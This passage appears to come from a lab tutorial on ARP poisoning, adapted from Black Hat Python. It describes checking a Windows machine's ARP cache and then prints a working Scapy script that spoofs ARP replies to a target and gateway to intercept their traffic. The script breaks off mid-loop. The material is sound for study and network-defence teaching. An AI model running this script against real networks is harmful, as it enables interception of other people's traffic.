 Before the attack, go to the Windows box, open the terminal (```cmd```) and check the IP and gateway IP address with```ipconfig```. Then check the associated  ARP cache entry MAC address with ```arp -a```:

![](http://i.imgur.com/ME069uS.png)

Our ARP poisoning script (based on [Black Hat Python](http://www.nostarch.com/blackhatpython)) will perform the following steps:

1. Define constant values, set our interface card, and turn off output.

2. Resolve the gateway and target MAC address. The function **get_mac** use the **srp** method to emit an ARP request to an IP address to resolve the MAC address.

3. Start the poison thread to perform the ARP poisoning attack. This will start the sniffer that captures the packets. The function **poison_target** builds ARP requests for poisoning both the target IP and the gateway (in a loop).

4. Write out the captured packets and restore the network. The function **restore_target** sends out the ARP packets to the network broadcast address to reset the ARP caches of the gateway and target machines.


```python
from scapy.all import *
from scapy.error import Scapy_Exception
import os
import sys
import threading
import signal

INTERFACE       =   'wlp1s0'
TARGET_IP       =   '192.168.1.107'
GATEWAY_IP      =   '192.168.1.1'
PACKET_COUNT    =   1000

def restore_target(gateway_ip, gateway_mac, target_ip, target_mac):
    print '[*] Restoring targets...'
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst='ff:ff:ff:ff:ff:ff', \
        hwsrc=gateway_mac), count=5)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip, hwdst="ff:ff:ff:ff:ff:ff", \
        hwsrc=target_mac), count=5)
    os.kill(os.getpid(), signal.SIGINT)

def get_mac(ip_address):
    response, unanswered = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip_address), \
        timeout=2, retry=10)
    for s, r in response:
        return r[Ether].src
    return None

def poison_target(gateway_ip, gateway_mac, target_ip, target_mac):
    poison_target = ARP()
    poison_target.op = 2
    poison_target.psrc = gateway_ip
    poison_target.pdst = target_ip
    poison_target.hwdst = target_mac
    poison_gateway = ARP()
    poison_gateway.op = 2
    poison_gateway.psrc = target_ip
    poison_gateway.pdst = gateway_ip
    poison_gateway.hwdst = gateway_mac

    print '[*] Beginning the ARP poison. [CTRL-C to stop]'
    while 1:
        try:
            send(poison_target)
```